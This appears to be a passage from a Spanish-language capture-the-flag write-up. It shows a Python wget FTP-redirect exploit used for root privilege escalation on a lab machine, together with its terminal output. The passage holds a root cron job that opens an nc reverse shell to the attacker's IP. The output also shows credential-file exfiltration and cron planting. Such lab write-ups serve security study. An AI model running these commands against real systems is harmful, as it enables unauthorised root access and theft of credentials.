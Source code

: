 ```python
HTTP_LISTEN_IP = '0.0.0.0'  # modificamos este valor para que este a la escucha por cualquier conexion entrante
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.12'   # ponemos nuestra IP
FTP_PORT = 21

# Le metemos una Reverse_shell como tarea cron para que nos la ejecute
ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 443 >/tmp/f"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```
Procedemos a ejecutar el exp1.py en la maquian victima
```bash
atanas@kotarak-dmz:/tmp$ ls
exp1.py  hsperfdata_tomcat  systemd-private-3e9e26f3a6f84a9a9b909400a5690811-systemd-timesyncd.service-AdlnuJ  vmware-root
atanas@kotarak-dmz:/tmp$ authbind python exp1.py 
Ready? Is your FTP server running?
FTP found open on 10.10.14.12:21. Let's go then

Serving wget exploit on port 80...


We have a volunteer requesting /archive.tar.gz by GET :)

Uploading .wgetrc via ftp redirect vuln. It should land in /root 

10.0.3.133 - - [20/Jul/2021 10:46:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.10.14.12:21/.wgetrc 

We have a volunteer requesting /archive.tar.gz by POST :)

Received POST from wget, this should be the extracted /etc/shadow file: 

---[begin]---
 950d1425795dfd38272c9XXXXXXXXXXXX   ------------ FLAG DE ROOT -------------
 
---[eof]---


Sending back a cronjob script as a thank-you for the file...
It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)
10.0.3.133 - - [20/Jul/2021 10:48:01] "POST /archive.tar.gz HTTP/1.1" 200 -

File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) 
```